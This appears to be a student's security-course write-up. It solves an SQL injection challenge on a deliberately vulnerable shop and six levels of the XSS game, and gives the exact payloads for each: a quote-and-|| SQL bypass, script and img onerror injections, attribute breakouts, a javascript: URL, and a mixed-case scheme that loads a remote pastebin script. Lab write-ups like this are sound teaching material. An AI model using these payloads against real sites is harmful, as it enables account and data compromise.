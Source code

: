 # Web Writeup

Name: Josiah Wedgwood
Section: 0101

I pledge on my honor that I have not given or received any unauthorized
assistance on this assignment or examination.

Digital acknowledgement: Josiah Wedgwood

## Assignment Writeup

### Part 1 (40 Pts)

* First clicked around the Vuln shop webpage and observed how the webpage url changes
* Each individual exploit's webpage was from the /item resource on the shop, just with changing values for the id parameter in the url
* The title led to SQL, so use SQL injection on the /item page of the Vuln shop
* Tried using values such as ```0' or '1'='1' -- ``` for the id parameter but the webpage would load the error page for sql injection
* I then went searching for alternate ways to express this sql injection and then I changed the ```or``` to ```||```
* The above alteration showed a webpage with the shop information from each exploit sold and then the info for a secret flag exploit that can be bought for $1337

Flag: CMSC389R-{y0u_ar3_th3_SQ1_ninj@}

### Part 2 (60 Pts)

Level 1:
* First tried inputing the string "test" to see how page changes normally.
* Query text is displayed in bold in the DOM
* Toggling the target code shows that the query text is directly embedded into the DOM between the tags <b> and </b>
* Using the query "<script>alert("test")</script>" shows an alert on the results page and the expected bold text is no longer present.

Query to execute xss:
```html
<script>alert("test")</script>
```

Level 2:
* First I just tried "<script>alert("test")</script>" in the message field to see that the message is turns blank on the webpage, but there's no script execution
* I was honestly stuck on this level. Even though I could embed other html elements in the webpage, I couldn't get the <script> element to work directly
* Using the final hint "This level is sponsored by the letters i, m and g and the attribute onerror.", I quickly looked up what the onerror attribute is for html elements.
* Now knowing about onerror, I used ```"<img src="/doesnotexist" onerror="alert('test')">"``` to save an xss vector on the webpage
  
Message to execute xss:
```html
<img src="/doesnotexist" onerror="alert('test')">
```

Level 3:

* Opened the target code and examined how the chooseTab(num) function showed images on the webpage
* chooseTab directly puts the num parameter in the img src with ```html += "<img src='/static/level3/cloud" + num + ".jpg' />";```
* Clicked on an image to see how URL changes -- #number is appended to URL depending on the image clicked
* I then tried getting the javascript parser to close the image src name and then insert the onerror attribute to execute my xss

URL to execute xss:
```raw
https://xss-game.appspot.com/level3/frame#' onerror='alert("test")'/>
```

Level 4:

* Opened target code and saw that user input is inserted as ```onload="startTimer('{{ timer }}');" ```
* Using ```5');// ``` as the input starts the timer function with 5 seconds and escapes the '); from the onload attribute
* Added an alert between the comments and the semicolon to get ```5');alert("test");// ``` and this executes the alert

Input to execute xss:
```raw
5');alert("test");//
```

Level 5:

* Opening target code shows a variable next that get changed to direct the user's sign up process
* On the signup page, the next button at the bottom is set with an a href tag as ```<a href="{{ next }}">Next >></a>```
* From Flask's security page (http://flask.pocoo.org/docs/1.0/security/), there's a section explaining how Jinja does not protect agains a href tags from executing javascript, so changing the next variable in the URL can embed xss

URL to embed xss (needs user to trigger by clicking next button)
```raw
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert('unsafe');
```

Level 6:

* Opening target code showed how the includeGadget program sanitizes the url given in the anchor
* ```if (url.match(/^https?:\/\//))``` only matches agains either http:// or https:// in the url, but it's not case sensitive. Variations like hTTps:// or HTTPS:// will not match
* Pastebin can host a js script that calls the alert function
* Making the anchor hTTps://pastebin.com/Bg2Y5jAY does not seem to make the program execute. The gadget only needs the file, not the pastebin webpage, so changing it to the download link would fix that.

URL anchor to execute xss:
```raw
hTTps://pastebin.com/dl/Bg2Y5jAY
```

